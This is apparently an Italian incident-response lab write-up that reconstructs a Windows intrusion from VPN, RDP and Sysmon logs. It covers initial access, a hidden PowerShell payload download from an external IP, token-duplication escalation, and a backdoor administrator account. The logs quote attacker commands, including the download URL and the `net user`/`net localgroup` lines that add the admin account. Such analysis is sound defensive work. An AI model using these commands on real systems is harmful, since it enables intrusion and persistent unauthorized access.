 
# Logs
VPN Gateway, Remote Desktop Gateway (RDG) e Load Balancer (HAProxy) logs

![  ](../image/4a.png)

Windows Security Auditing, Sysmon, MsiInstaller, Windows Update logs

![  ](../image/4b.png)

#
L’indagine è iniziata con un ticket del SIEM alle 09:41:21. 

`2025-08-22 09:41:21 Microsoft-Windows-Security-Auditing: EventID=4672 SpecialPrivilegesAssignedToNewLogon SubjectUserName=LOCAL SERVICE LogonID=0x3C221 note="token duplication" `

L’evento era un 4672 Special Privileges Assigned, legato all’account LOCAL SERVICE. Si tratta di un tentativo di escalation di privilegi. Ho guardato qualche secondo prima e ho trovato che alle 09:41:19 il processo powershell.exe (PID 4471), eseguito con l’utente CORP\j.smith, aveva lanciato il comando `C:\ProgramData\u.tmp --elevate-token`. Questo collegava chiaramente il file sospetto u.tmp all’escalation.
Proseguendo a ritroso ho scoperto che alle 09:27:02 un altro processo, cmd.exe (PID 4112 con parent explorer.exe), aveva eseguito `C:\ProgramData\u.tmp –probe`. Sembrava un test preliminare del malware per capire l’ambiente. Ho poi verificato il contesto utente e ho visto che alle 09:26:39 c’era stato un accesso RDP riuscito per l’utente j.smith, proveniente dall’IP esterno `203.0.113.90`. Da lì ho capito quale fosse l’account compromesso e da dove fosse entrato l’attaccante.
Ho quindi ricostruito la catena...prima l’accesso VPN da quell’indirizzo IP, poi la sessione RDP, subito dopo il download di u.exe trasformato in u.tmp, e infine l’esecuzione del file che ha portato all’escalation e alla creazione di un nuovo utente amministratore.

```
SIEM ticket
 └── 09:41:21 WIN-APP01 → EventID 4672 SpecialPrivilegesAssigned (LOCAL SERVICE) 
     └── 09:41:19 powershell.exe (User=CORP\j.smith) → esegue C:\ProgramData\u.tmp --elevate-token
         └── 09:27:02 cmd.exe (Parent=explorer.exe) → esegue u.tmp --probe (Exit=1)
             └── 09:26:39 WIN-APP01 → Logon riuscito (4624) User=j.smith, SourceIP=203.0.113.90, LogonType=10

```

# Accesso Iniziale
alle 08:11:09, nei log VPN un accesso con l’utente corp\j.smith dall’IP esterno `203.0.113.90`. La connessione viene accettata con protocollo IKEv2 e questo è il primo punto in cui l’attaccante riesce a entrare nella rete interna. Subito dopo, alle 08:11:12, sul server RDG01 viene registrato un evento CAP: significa che il controllo delle policy RDP per l’utente j.smith è stato autorizzato, quindi può proseguire verso il server target.
Alle 08:18:03, infatti, l’RDP viene autorizzato per collegarsi a WIN-APP01, lo stesso host che più tardi sarà coinvolto. E alle 08:18:11 arriva la conferma definitiva: l’evento 4624 sui log di sicurezza di WIN-APP01 segnala un logon remoto (LogonType=10) con utente j.smith e IP sorgente 203.0.113.90.
In questo modo si completa la catena di ingresso 

`VPN → CAP check → sessione RDP autorizzata → login remoto riuscito`

 È chiaro che l’attaccante ha usato credenziali valide di j.smith per aprirsi una porta verso l’ambiente interno e stabilire una sessione interattiva. Da qui in poi può muoversi liberamente sul server.
```

  08:11:09 VPNGW01 → Accesso VPN con credenziali valide (corp\j.smith) da 203.0.113.90
     └── 08:11:12 RDG01 → CAP autorizzato per j.smith
         └── 08:18:03 RDG01 → RDP autorizzato verso WIN-APP01
             └── 08:18:11 WIN-APP01 → Logon remoto riuscito (EventID 4624, LogonType=10)
```


# Esecuzione e Consegna del Payload
Dopo il logon riuscito con l’utente j.smith, noto che alle 08:19:02 su WIN-APP01 parte un comando sospetto `powershell.exe` viene eseguito con opzioni nascoste (-nop -w hidden) e scarica un file da un server esterno all’indirizzo `http://203.0.113[.]90/tools/u.exe`. Il file non viene salvato come “u.exe”, ma viene scritto in `C:\ProgramData\u.tmp`, probabilmente per confondere i controlli o evitare di attirare subito l’attenzione.
Pochi secondi dopo, alle 08:19:06, i log di Sysmon confermano la creazione effettiva del file u.tmp con relativo hash. Questo mi fa capire che il payload è stato depositato con successo sul server.
Alle 08:19:13 vedo un altro passo fondamentale.. lo stesso utente esegue `icacls.exe` per modificare i permessi sul file, concedendo accesso in lettura ed esecuzione a “Everyone”. Questo è un segnale chiaro che l’attaccante vuole rendere il file facilmente utilizzabile, senza restrizioni, magari per lanciarlo con privilegi diversi o da altri contesti.
Con questa sequenza, la fase di delivery è completata: il payload malevolo (u.tmp) è stato scaricato, scritto su disco e reso pronto all’uso. Da qui inizieranno i tentativi di esecuzione ed escalation.
```
08:19:02 powershell.exe → Download u.exe da 203.0.113.90 → salvato come C:\ProgramData\u.tmp
     └── 08:19:06 FileCreate → u.tmp scritto su disco (hash registrato)
     └── 08:19:13 icacls.exe → Permessi modificati (Everyone:RX)
```
# Escalation dei Privilegi 
Dopo che il payload u.tmp è stato scaricato e reso eseguibile, l’attaccante inizia a testarlo. Alle 09:27:02, vedo che cmd.exe esegue il file con il parametro --probe. Questo sembra un test preliminare per verificare se l’impianto funziona nell’ambiente corrente. L’esecuzione non produce risultati utili (ExitStatus=1), ma indica chiaramente un tentativo di interazione con il malware.
Poco dopo, alle 09:27:15, lo stesso file u.tmp viene lanciato da powershell.exe con l’opzione runAs. Questo comando serve a forzare un prompt di elevazione dei privilegi. In pratica, l’attaccante sta cercando di eseguire il payload con diritti amministrativi, sfruttando l’utente loggato (j.smith).
alle 09:41:19 invece, quando powershell.exe esegue di nuovo il file u.tmp, questa volta con il parametro `--elevate-token`. Subito dopo, nei log appare l’evento 4672, che conferma l’assegnazione di privilegi speciali a un nuovo logon per l’account LOCAL SERVICE. Questo significa che è avvenuta una duplicazione di token... l’attaccante è riuscito a sfruttare il payload per ottenere un contesto privilegiato al di fuori del normale utente j.smith.
```
  09:27:02 cmd.exe → Esegue u.tmp --probe (Exit=1)
     └── 09:27:15 powershell.exe → Start-Process u.tmp -Verb runAs (ElevationPrompt)
         └── 09:29:11 run.exe tenta /elevate → (AccessDenied)
     └── 09:41:19 powershell.exe → Esegue u.tmp --elevate-token
         └── 09:41:21 Security Log → EventID 4672 → Privilegi speciali assegnati a LOCAL SERVICE (Token Duplication)
```

# Persistenza 
Dopo aver ottenuto i privilegi più alti grazie alla duplicazione di token, l’attaccante passa subito a consolidare l’accesso sul sistema. Alle 09:41:36, noto che il processo cmd.exe, eseguito in contesto SYSTEM e con parent process collegato a u.tmp, lancia il comando

`net user backupsvc Qwe!2025 /add`
Questo crea un nuovo utente locale chiamato backupsvc con una password già definita. Pochi secondi dopo, alle 09:41:39, i log di sicurezza confermano l’evento 4720, che indica ufficialmente la creazione dell’account.
Ma l’attaccante non si ferma qui. Alle 09:41:44, sempre tramite cmd.exe in esecuzione da u.tmp, viene eseguito un altro comando:
net localgroup administrators backupsvc /add.
L’obiettivo ...inserire l’account appena creato direttamente nel gruppo Administrators. Infatti, alle 09:41:46, i log confermano con l’evento 4732 che l’utente backupsvc è stato aggiunto al gruppo amministratori locali.
In questo modo, l’attaccante ottiene un accesso persistente e garantito al sistema, indipendente dall’utente originale compromesso (j.smith). Anche se la sessione VPN o RDP venisse chiusa, l’account backupsvc resterà attivo e con pieni privilegi amministrativi, pronto per essere usato in futuri accessi malevoli.
```
 09:41:36 cmd.exe (SYSTEM, figlio di u.tmp) → `net user backupsvc Qwe!2025 /add`
     └── 09:41:39 EventID 4720 → Creazione account "backupsvc"
     └── 09:41:44 cmd.exe (SYSTEM) → `net localgroup administrators backupsvc /add`
         └── 09:41:46 EventID 4732 → backupsvc aggiunto al gruppo Administrators
```
